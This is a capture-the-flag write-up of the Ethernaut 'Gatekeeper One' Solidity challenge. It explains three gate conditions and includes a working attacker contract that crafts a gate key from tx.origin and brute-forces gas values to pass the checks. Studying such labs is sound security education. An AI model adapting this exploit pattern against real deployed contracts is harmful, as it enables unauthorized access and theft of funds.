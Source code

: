 # Level 13: Gatekeeper One

## Challenge Overview

This challenge demonstrates the importance of modifier logic in Solidity.  
The goal is to bypass three restrictive gate conditions and gain access to the `enter` function.

## Goal

Solve the three gate conditions in the `GatekeeperOne` contract to call the `enter` function successfully.

## Solution

The `GatekeeperOne` contract has the following three gate conditions:

### 1. Gate 1

```solidity
require(msg.sender != tx.origin);
```

This requires the caller to be a contract (not an externally owned account).

### 2. Gate 2

```solidity
require(gasleft() % 8191 == 0);
```

The remaining gas when executing this condition must be a multiple of 8191.

### 3. Gate 3

```solidity
require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)));
require(uint32(uint64(_gateKey)) != uint64(_gateKey));
require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)));
```

This imposes complex constraints on the `_gateKey` value, which involves a combination of type casting and alignment with `tx.origin`.



## Steps to Solve

### 1. Deploy an attacker contract with the following logic:

```solidity
pragma solidity ^0.8.0;

interface GatekeeperOne {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract GatekeeperOneAttack {
    address public target;

    constructor(address _target) {
        target = _target;
    }

    function attack() external {
        bytes8 gateKey = bytes8(uint64(uint16(uint160(tx.origin))) + 2**32);
        for (uint256 i = 0; i < 8191; i++) {
            (bool success, ) = target.call{gas: i + 150 + 8191 * 3}(
                abi.encodeWithSignature("enter(bytes8)", gateKey)
            );
            if (success) break;
        }
    }
}
```

### 2. Adjust the gas to align with `gasleft() % 8191 == 0`  
Use a loop to iterate through possible gas amounts.

### 3. Deploy the `GatekeeperOneAttack` contract and call the `attack` function:

```javascript
const GatekeeperOneAttack = await ethers.getContractFactory("GatekeeperOneAttack");
const attacker = await GatekeeperOneAttack.deploy(targetAddress);
await attacker.attack();
```

### 4. Verify successful entry by calling the `enter` function of the `GatekeeperOne` contract.



## Lessons Learned

- Understand the implications of Solidity modifiers and how they validate function calls.
- Be cautious with strict gas requirements as they can lead to exploitable behavior.
- Always ensure typecasting requirements and logical checks are implemented securely.
